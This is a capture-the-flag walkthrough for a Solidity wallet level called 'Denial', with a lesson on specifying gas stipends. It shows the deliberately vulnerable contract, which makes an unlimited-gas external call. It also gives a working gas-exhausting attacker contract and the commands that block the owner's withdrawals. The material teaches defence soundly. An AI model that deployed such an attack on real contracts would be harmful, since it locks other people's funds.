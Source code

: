 # Denial
_difficulty 5/10_

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.  


If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds) you will win this level.  

## Sources
```javascript
pragma solidity ^0.4.24;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
```

## Level author  
Adrian Manning  
age@agemanning.com  
https://github.com/AgeManning  

## Solution

1. Deploy a withdrawal contract that will receive funds. This contract should spend all the gas when receiving funds, so no further contract lines are executed. Using Remix, deploy the `DenialHack.sol`.

```javascript
pragma solidity ^0.4.24;

contract DenialHack {
    function() public payable {
        // assert will consume all gas
        assert(false);
    }
}
```

2. Check `Denial` contract balance.  
`await getBalance(instance)`  
"1"  

3. Set withdraw partner.
`let partner = 0x...` - set to your new contract address  
`await contract.setWithdrawPartner(partner)`  

3. Withdraw funds
`await contract.withdraw();`

4. Check `Denial` contract balance.  
`await getBalance(instance)`  
"0.99"  

5. Submit Instance 🎉  

## Lesson
This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.


If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.


Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.
